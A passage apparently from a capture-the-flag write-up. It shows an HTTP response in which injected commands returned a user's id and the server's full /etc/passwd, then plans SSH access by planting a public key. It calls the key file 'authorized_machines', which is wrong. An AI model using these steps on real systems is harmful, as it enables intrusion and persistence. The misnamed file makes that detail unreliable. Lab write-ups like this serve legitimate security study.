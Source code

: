 ### Result

```
HTTP/1.1 200 OK 
Server: nginx/1.18.0 (Ubuntu) 
Date: Sun, 20 Mar 2022 11:04:18 GMT 
Content-Type: application/json; charset=utf-8 
Content-Length: 1998 
Connection: keep-alive 
X-Powered-By: Express 
ETag: W/"7ce-NxIlhcd24v8GLd4L3DTd0ONRpEo" 
 
"ab3e953 Added the codes 
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith) 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin 
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin 
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin 
syslog:x:104:110::/home/syslog:/usr/sbin/nologin 
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin 
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false 
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin 
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin 
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:110:1::/var/cache/pollinate:/bin/false 
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin 
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin 
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin 
dasith:x:1000:1000:dasith:/home/dasith:/bin/bash 
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false 
mongodb:x:113:117::/var/lib/mongodb:/usr/sbin/nologin
```

## There dasith user running the application with a login shell. We know that we have ssh port open. For accessing the shell via ssh we  need to add an SSH public key to authorized_machines file of the users home directory.

